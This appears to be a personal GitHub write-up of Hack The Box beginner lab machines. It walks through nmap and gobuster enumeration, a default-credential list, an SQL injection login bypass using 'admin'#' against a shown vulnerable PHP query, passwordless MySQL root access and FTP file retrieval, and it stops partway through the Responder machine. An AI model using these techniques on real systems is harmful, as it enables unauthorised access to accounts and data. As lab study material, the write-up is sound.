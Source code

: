 #  Machine: Appointment

## Exploit: SQL Injection 

Nmap is a tool used to find open ports on a target
- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts
- *Apache HTTP Server is a free and open-source application that runs web pages on either physical or virtual
web servers. It is one of the most popular HTTP servers, and it usually runs on standard HTTP ports such as
ports 80 TCP, 443 TCP, and alternatively on HTTP ports such as 8080 TCP or 8000 TCP*

 ![appointment_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_nmap.png?raw=true)

Since port 80 is open (http) we can go to the IP in our browser

**Gobuster**
```git clone https://github.com/danielmiessler/SecLists.git``` command downloads the wordlist
```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

Default credentials
- admin:admin
- guest:guest
- user:user
- root:root
- administrator:password

SQL injection
example how authentication works 

```
<?php
mysql_connect("localhost", "db_username", "db_password"); # Connection to the SQL
Database.
mysql_select_db("users"); # Database table where user information is stored.
$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.
$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.
$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.
if ($count==1){
 # Checks if there's at least 1 result, and if yes:
 $_SESSION['username'] = $username; # Creates a session with the specified $username.
 $_SESSION['password'] = $password; # Creates a session with the specified $password.
 header("location:home.php"); # Redirect to homepage.
 ```
 
 if we use **admin'#** in the username field,
 
 ```$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";```
 
 will read ```$sql="SELECT * FROM users WHERE username='admin'```, so password will be skipped with this SQL injection
 
![appointment_select](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_select.png?raw=true)

We can login with any password in the password field

![appointment_sql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql.png?raw=true)

![appointment_sql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/appointment_sql1.png?raw=true)
 
#  Machine: Sequel

## Exploit: SQL database with mysql

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

```sudo apt update && sudo apt install mysql*``` to download mysql

- ```mysql -h {target_IP} -u root```
  - -h : Connect to host.
  - -u : User for log-in if not current user.

![sequel_mysql](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql.png?raw=true)

- mysql commands

```
SHOW databases; : Prints out the databases we can access.
USE {database_name}; : Set to use the database named {database_name}.
SHOW tables; : Prints out the available tables inside the current
database.
SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.
```

  - ```SHOW databases;``` to see our databases
  - ```USE htb;``` to change database
  - ```SHOW tables;``` to check the tables
  - ```SELECT * FROM config;``` to see our query of config

![sequel_mysql1](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/sequel_mysql1.png?raw=true)

#  Machine: Crocodile

## Exploit: FTP/PHP

- ```sudo nmap {target_IP}```
  - ```sudo nmap -sC -sV {target_IP}```
    - ```-sV``` switch, stands for version detection 
    - ```-sC``` performs a script scan using the default set of scripts

![crocodile_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_nmap.png?raw=true)

- Port 21 is open, ftp to the target IP
  - Use command ```get``` to download files from remote computer to the local computer
  - Use command ```bye``` to leave ftp

![crocodile_ftp](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_ftp.png?raw=true)

- Use command ```cat``` (concatenate) to read data from file and output the contents

![crocodile_cat](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_cat.png?raw=true)

**Gobuster**

```gobuster dir --url http://{target_IP}/ --wordlist {wordlist_location}/directory-list-2.3-small.txt -x php,html```

gobuster dir --url http://10.129.235.89 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html

![crocodile_gobuster](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_gobuster.png?raw=true)

- ```http://{target_IP}/login.php``` page
  - Use the username and password files to log in
![crocodile_login](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_login.png?raw=true)

![crocodile_flag](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/crocodile_flag.png?raw=true)

#  Machine: Responder

## Exploit: 

- ```nmap -p- --min-rate {#} -sV {target_IP}```
  - ```-sV``` switch, stands for version detection 
  - ```-p- to scan ports from 1 through 65535``` 
  - ```--min-rate {#}``` specify the minimum number of packets Nmap should send per second; it speeds up the scan as the number goes higher

nmap -p- --min-rate 5000 -sV

- Port 80 (http) and 5985 (WinRM) are open

![responder_nmap](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_nmap.png?raw=true)

- Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as Operating Systems and applications. WinRM allows the user to :
  - → Remotely communicate and interface with hosts
  - → Execute commands remotely on systems that are not local to you but are network accessible.
  - → Monitor, manage and configure servers, operating systems and client machines from a remote location.
- As a pentester, this means that if we can find credentials (typically username and password) for a user who has remote management privileges, we can potentially get a PowerShell shell on the host.

- If we visit the IP in the browser, we are redirected to Unika.htb

![responder_unika](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika.png?raw=true)

- add the IP to the hosts file to redirect
  - ```echo "{target_IP} unika.htb" | sudo tee -a /etc/hosts```

![responder_unika2](https://github.com/juliezard/HackTheBox/blob/main/Boxes/Tier%201/images/responder_unika2.png?raw=true)
